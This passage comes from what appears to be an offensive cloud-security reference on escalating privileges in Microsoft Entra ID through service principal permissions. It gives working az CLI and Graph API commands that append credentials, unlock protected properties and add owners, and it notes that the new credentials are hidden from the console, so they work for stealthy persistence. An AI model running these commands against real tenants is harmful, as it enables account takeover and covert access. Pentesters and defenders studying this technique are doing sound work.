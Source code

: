 ### `microsoft.directory/servicePrincipals/credentials/update`

This allows an attacker to add credentials to existing service principals. If the service principal has elevated privileges, the attacker can assume those privileges.

```bash
az ad sp credential reset --id <sp-id> --append
```

> [!CAUTION]
> The new generated password won't appear in the web console, so this could be a stealth way to maintain persistence over a service principal.\
> From the API they can be found with: `az ad sp list --query '[?length(keyCredentials) > 0 || length(passwordCredentials) > 0].[displayName, appId, keyCredentials, passwordCredentials]' -o json`

If you get the error `"code":"CannotUpdateLockedServicePrincipalProperty","message":"Property passwordCredentials is invalid."` it's because **it's not possible to modify the passwordCredentials property** of the SP and first you need to unlock it. For it you need a permission (`microsoft.directory/applications/allProperties/update`) that allows you to execute:

```bash
az rest --method PATCH --url https://graph.microsoft.com/v1.0/applications/<sp-object-id> --body '{"servicePrincipalLockConfiguration": null}'
```

### `microsoft.directory/servicePrincipals/synchronizationCredentials/manage`

This allows an attacker to add credentials to existing service principals. If the service principal has elevated privileges, the attacker can assume those privileges.

```bash
az ad sp credential reset --id <sp-id> --append
```

### `microsoft.directory/servicePrincipals/owners/update`

Similar to applications, this permission allows to add more owners to a service principal. Owning a service principal allows control over its credentials and permissions.

```bash
# Add new owner
spId="<spId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/servicePrincipals/$spId/owners/\$ref" \
  --headers "Content-Type=application/json" \
  --body "{
    \"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
  }"

az ad sp credential reset --id <sp-id> --append

# You can check the owners with
az ad sp owner list --id <spId>
```
